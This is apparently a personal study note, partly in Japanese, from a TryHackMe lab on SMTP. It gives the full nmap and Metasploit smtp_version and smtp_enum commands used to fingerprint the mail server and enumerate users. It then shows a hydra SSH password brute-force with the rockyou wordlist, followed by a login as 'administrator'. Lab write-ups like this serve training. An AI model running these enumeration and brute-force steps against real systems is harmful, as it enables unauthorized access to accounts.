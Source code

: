 # 20210831

## THM

### Cyber Defense Introduction: Network Services 2

#### Enumerating SMTP

* serverのfingerprintを確認する
  * "smtp_version" module in MetaSploit
* ユーザーの取得
  * SMTPの検証プロセスを利用してユーザーを取得する
    * VRFY/EXPN
    * "smtp_enum" module in MetaSploit
    * Solarisであればより効果的なツールであるsmtp-user-enumが利用できる
  * [Metasploitについてはこのルーム](https://tryhackme.com/room/rpmetasploit)やっとけとのこと
* nmapして出てきたポートにsmtp_versionとsmtp_enumをかます
* seclists

```bash
nmap -A -p- $target_ip
# => 22と25がtcpでopen
apt install seclists
msfconsole
> use auxiliary/scanner/smtp/smtp_version
> options
# Module options (auxiliary/scanner/smtp/smtp_version)
#    Name     Current Setting  Required  Description
#    ----     ---------------  --------  -----------
#    RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
#    RPORT    25               yes       The target port (TCP)
#    THREADS  1                yes       The number of concurrent threads (max one per host)
> set RHOSTS [TARGET_IPADDR]
> run
# 以下の情報が見える
#   system mail name: polosmtp.home
#   MTA: Postfix (Ubuntu)
```

* smtp_enumでユーザーを取得する

```bash
> use auxiliary/scanner/smtp/smtp_enum
> set RHOSTS 10.10.87.229
> set USER_FILES /usr/share/seclists/Usernames/top-usernames-shortlist.txt
> run
```

* userにadministratorがみえる

#### Exploiting SMTP

* Enumeratingの続き
  * administratorがいること、SSHがopenしていることがわかっているのでhydraでbruteforceしてみる
* hydraでsshのパスワードが見えるのでログインする

```bash
export target_user=administrator
hydra -t 16 -l $target_user -P /usr/share/wordlists/rockyou.txt -vV $target_ip ssh
ssh $target_user@$target_ip
```
